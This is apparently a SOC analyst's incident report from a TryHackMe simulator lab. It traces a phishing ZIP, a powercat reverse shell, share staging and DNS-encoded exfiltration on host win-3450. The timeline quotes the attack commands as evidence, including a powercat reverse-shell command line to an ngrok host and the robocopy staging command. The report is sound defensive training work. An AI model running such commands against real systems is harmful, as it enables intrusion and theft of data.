# Incident Report: win-3450, Phishing to Data Exfiltration

**Source:** TryHackMe SOC Simulator (lab data) | **Tools:** Splunk, CyberChef | **Date of activity:** Nov 15, 2026

> **Note on timestamps.** The simulator replays events in real time, so every time in this report comes from one lab session on Nov 15, 2026. Splunk event times are used throughout. The `timestamp` field inside each alert runs a constant 13 seconds later than the matching Splunk event (for example alert 1022: 15:29:39 in the alert, 15:29:26 in Splunk).

| Field | Value |
|---|---|
| Verdict | True positive, critical |
| Escalation | Required (L2 / incident response) |
| Host | win-3450 |
| User | SSF\michael.ascot (michael.ascot@tryhatme[.]com) |
| Data at risk | \\\\FILESRV-01\\SSF-FinancialRecords |
| Related alerts | 1005, 1006, 1022, 1024, 1025 to 1034 |

## Summary

User michael.ascot received a phishing email with a ZIP "invoice" (alert 1005). A PowerShell reverse shell (powercat to an ngrok address) followed, then discovery commands. The SSF-FinancialRecords share was mapped, copied into a local exfiltration folder, and the data was sent out as encoded DNS queries to haz4rdw4re[.]io (alerts 1025 to 1034).

I treated the alerts as one incident: same host, same user, a tight 25-minute sequence, and alerts 1022, 1024 and 1025 to 1034 all share the parent process powershell.exe (PID 3728). The discovery commands (systeminfo, whoami, net user, net localgroup) ran under a different parent PID (9060) and raised no alerts. I did not check how PID 9060 and PID 3728 are related.

No firewall or DNS logs were available, so I could not confirm that the data reached the attacker.

## Escalation

**Reasons:**
- Interactive attacker session on a user account.
- Financial records, client portfolio and investor files involved, which may need legal or breach-notification decisions.
- Scope unknown: other hosts, mailboxes, credentials and the file server need L2 or IR review.

**Actions requested:**
1. Isolate win-3450.
2. Disable michael.ascot and reset credentials.
3. Review FILESRV-01 access logs.
4. Block hatmakereurope[.]xyz, haz4rdw4re[.]io and the ngrok address.
5. Remove the phishing email from mailboxes.
6. Check whether the exfiltration folder contents left the host by any other route.
7. Review the 15:31 email to conor@yahoo[.]com.
8. Tell the owner of the financial records.

## Timeline (Splunk event times, Nov 15)

| Time | Event |
|---|---|
| 15:06:01 | Email with ImportantInvoice-Febrary.zip from john@hatmakereurope[.]xyz (alert 1005) |
| 15:07:13 | rdpclip.exe starts (alert 1006), remote desktop session on the host |
| 15:16:05 | OUTLOOK.EXE /eml opens `Important: Pending Invioce!.eml` from the user's profile |
| 15:26:20 | powershell.exe downloads powercat.ps1 and runs `powercat -c 2.tcp.ngrok.io -p 19282 -e powershell` |
| 15:26:23 | PowerShell log records powercat's "Both Communication Streams Established" message |
| 15:26:36 to 15:27:05 | systeminfo, whoami, whoami /priv, net user, net localgroup (parent PID 9060) |
| 15:29:26 | `net use Z: \\FILESRV-01\SSF-FinancialRecords` (alert 1022) |
| 15:30:13 | `Robocopy.exe . C:\Users\michael.ascot\downloads\exfiltration /E` |
| 15:30:24 | `net use Z: /delete` (alert 1024) |
| 15:31:11 | 8 nslookup.exe runs to haz4rdw4re[.]io |
| 15:31:19 | Outbound email from michael.ascot to conor@yahoo[.]com, no attachment (relation not confirmed) |
| 15:31:27 | 2 more nslookup.exe runs, 16 seconds after the first 8 (10 in total, alerts 1025 to 1034) |

## Evidence

### Phishing email

Unknown .xyz sender, threat of account suspension and legal action within 24 hours, generic text, ZIP attachment with a typo in the name ("Febrary").


*Figure 1. Alert 1005: suspicious attachment from an unknown .xyz sender.*


*Figure 2. All email events for the user. The ZIP arrives at 15:06:01. The outbound email to conor@yahoo.com at 15:31:19 has no attachment.*

### Execution and host activity

PowerShell downloaded powercat.ps1 from GitHub, ran it in memory and connected out to 2[.]tcp[.]ngrok[.]io port 19282. The PowerShell log (user SSF\michael.ascot) contains the tool's message "Both Communication Streams Established", and discovery commands follow within seconds.


*Figure 3. Process creation events on win-3450 (Sysmon event code 1). Discovery commands run under parent PID 9060. The share mapping, Robocopy, share removal and all 10 nslookup runs run under parent PID 3728. The first row (rundll32 ClearMyTracksByProcess at 15:00:30) happens before the phishing email, looks like browser history clearing, and I did not link it to the incident.*


*Figure 4. PowerShell log at 15:26:23 showing the powercat message, the user, and the full command line.*

### Share access and staging

The share was mapped as Z:, copied to `C:\Users\michael.ascot\downloads\exfiltration` (Robocopy row in Figure 3), and the mapping was removed.


*Figure 5. Alert 1022: network drive mapped, parent PID 3728.*


*Figure 6. Alert 1024: network drive disconnected, parent PID 3728.*

### DNS exfiltration

Ten nslookup.exe runs from PowerShell (PID 3728): eight at 15:31:11 and two 16 seconds later. Each query has a long encoded string before haz4rdw4re[.]io, and the working directory is the exfiltration folder for most of them. Decoding a sample of the strings from Base64 gives:

- `PK`, the header of a ZIP file
- the file names `Summary.xlsx` and `ClientPortfolio`
- a file name ending in `tation2023.pptx`
- the last string ends with `==`, which is Base64 padding


*Figure 7. Alert 1025: first DNS alert, encoded string `UEsDBBQAAAAIANigLlfVU3cDIgAAAI`.*


*Figure 8. Alert 1034: last DNS alert, encoded string ends with `==`.*


*Figure 9. The alert 1025 string decodes to `PK`, the ZIP file header. The control characters after it are binary data.*


*Figure 10. A query string (PID 5432) decodes to the file name `Summary.xlsx`. Characters after the name are binary data from the archive.*


*Figure 11. A query string (PID 3952) decodes to `ClientPortfolio`. The first two characters of the string were removed so the Base64 alignment is correct.*


*Figure 12. A query string (PID 5696) decodes to a file name ending in `tation2023.pptx`.*

### Scope check

Searches for powercat, ngrok and haz4rdw4re returned events from win-3450 only. The sender domain hatmakereurope[.]xyz appears in the email logs (Figures 1 and 2), which have no host field.


*Figure 13. Search for the indicators: all hits are on win-3450 (powershell: 40 events, sysmon: 12 events).*

## Related alerts

| Alert | Severity | Description |
|---|---|---|
| 1005 | Low | Suspicious attachment: ImportantInvoice-Febrary.zip |
| 1006 | Low | rdpclip.exe from svchost.exe (normal alone, marks the session; process row at 15:07:13 in Figure 3) |
| 1022 | Medium | Network drive mapped: \\\\FILESRV-01\\SSF-FinancialRecords |
| 1024 | Medium | Network drive disconnected: Z: |
| 1025 to 1034 | High | 10 x nslookup.exe with encoded subdomain, parent powershell.exe |

**Not related:** alert 1011 (low severity spam from keane@modernmillinerygroup[.]online, same recipient, 15:16:55 in Figure 2).

## Indicators

| Type | Value |
|---|---|
| Sender | john@hatmakereurope[.]xyz |
| Attachment | ImportantInvoice-Febrary.zip |
| Tool download | hxxps://raw[.]githubusercontent[.]com/besimorhino/powercat/master/powercat[.]ps1 |
| Remote host | 2[.]tcp[.]ngrok[.]io:19282 |
| Exfiltration domain | haz4rdw4re[.]io |
| Staging folder | C:\Users\michael.ascot\downloads\exfiltration |
| Share | \\\\FILESRV-01\\SSF-FinancialRecords |

## MITRE ATT&CK

T1566.001, T1204.002, T1059.001, T1105, T1033, T1082, T1087.001, T1069.001, T1021.002, T1039, T1074.001, T1560 (likely), T1048.003, T1070.005

## Not confirmed

- Whether the reverse shell connected and whether the DNS queries reached the attacker. The PowerShell log shows powercat's connection message and commands followed, which points to a working shell, but only email, PowerShell and Sysmon logs were available, with no firewall or DNS data.
- How the ZIP was created. It is inferred from the decoded data.
- The link between the ZIP in alert 1005 and the .eml opened at 15:16:05. Likely, but not proven.
- Whether the 15:31:19 email to conor@yahoo[.]com is related.
- How parent PID 9060 (discovery commands) and parent PID 3728 (share access and DNS) are related.
